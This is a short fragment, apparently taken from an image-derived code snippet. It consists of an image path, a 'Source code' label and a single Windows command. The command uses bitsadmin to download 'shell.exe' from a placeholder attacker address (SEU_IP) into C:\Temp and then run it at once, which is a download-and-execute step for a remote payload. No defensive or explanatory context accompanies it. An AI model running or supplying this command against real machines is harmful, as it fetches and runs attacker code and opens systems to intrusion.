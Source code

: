 bitsadmin /transfer job /download /priority high http://SEU_IP/shell.exe C:\Temp\shell.exe && C:\Temp\shell.exe
